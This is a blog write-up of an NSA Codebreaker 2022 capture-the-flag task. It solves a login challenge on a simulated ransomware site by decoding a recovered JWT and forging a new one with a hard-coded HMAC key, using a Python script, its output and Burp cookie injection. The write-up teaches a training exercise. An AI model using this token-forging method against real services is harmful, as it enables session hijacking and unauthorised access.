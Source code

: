 ```yaml
---
title: "NSACodebreaker2022 - Task6"
topic: "general"
tags: ["web-hacking", "software-development"]
prev: "http://andrewromans.com/posts/nsacodebreaker2022-task5"
next: "http://andrewromans.com/posts/nsacodebreaker2022-task7"
date: 2022-12-20T11:37:37-05:05
---
```


# Table of Contents
1. [Task A1](http://andrewromans.com/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://andrewromans.com/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://andrewromans.com/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://andrewromans.com/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://andrewromans.com/posts/nsacodebreaker2022-task5/)
6. [Task 6](#task-6)
	- [Solution](#solution)
7. [Task 7](http://andrewromans.com/posts/nsacodebreaker2022-task7/)
8. [Task 8](http://andrewromans.com/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://andrewromans.com/posts/nsacodebreaker2022-task9/)

## Task 6

- - -
###### We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

###### Generate a new token value which will allow you to access the ransomware site.
- - -

### Solution

The file that we've decoded seems to be a Json Web Token, or JWT for short! These can be easily used to spoof login as another user without needing their username or password. Very powerful!

We can see what information the cookie holds by copying and pasting it into [jwt.io](https://jwt.io/)

```
# The Token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI1NjA2ODcsImV4cCI6MTY1NTE1MjY4Nywic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.QgxdO3-_ZI3InW90GiQvOjddffZOSboRVNGWohWdWnM
```

Looking at the JWT information, we can see that the assigned expiration date of the cookie has way passed. In order to recreate a valid cookie, we can make use of our scripting skills! Luckily for us, the `util.py` script from the source code we've capture earlier has some important information we can use to generate our own valid JWT token, such as the hard coded `hmack_key`.

```python
#!/usr/bin/env python3 

import jwt 
import time
from datetime import datetime, timedelta

token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjEwMDY0MjYsImV4cCI6MTY2MTA5Mjc5NCwic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.mYmRxGmRR6QwhfZ_ZljSarJILmbJMUFNvrnlyinN6h8"

def hmac_key():
	return "R7RNY65GilmD4Hbw9ckndVcZ4QBpbUmA"

def validate_token(token):
	try:
		claims = jwt.decode(token, hmac_key(), algorithms=['HS256'])
		print(claims)
	except:
		print("OOF!")

def generate_token(uid, secret):
	now = datetime.now()
	exp = now + timedelta(days=30)
	claims = {'iat': now,
			  'exp': exp,
			  'uid': uid,
			  'sec': secret}
	return jwt.encode(claims, hmac_key(), algorithm='HS256')


import codecs
hex_str = "48 30 62 77 33 39 37 4F 63 50 78 32 32 56 41 6B 53 50 49 37 77 73 76 5A 35 71 6E 64 69 53 6A 41"
hex_str = hex_str.split(" ")
hex_str = "".join(hex_str)
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("22492", hex_str)
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

Running this script should give us a valid JWT token.

```
==== GENERATED TOKEN ====

 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg 


{'iat': 1660992645, 'exp': 1663584645, 'uid': '22492', 'sec': 'H0bw397OcPx22VAkSPI7wsvZ5qndiSjA'}
 gC4Zcze36Mo0G9hY89MavH0XU213mF
```

We can see in the source code of the server that the cookie name used for validation is `tok`. Using `Burp` we can easily capture any outgoing data and replace/add a cookie called `tok` with our newly valid JWT token generated above. 

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg`

![Task 6 Badge](/posts/badge6.png "Task 6 Badge")

- - -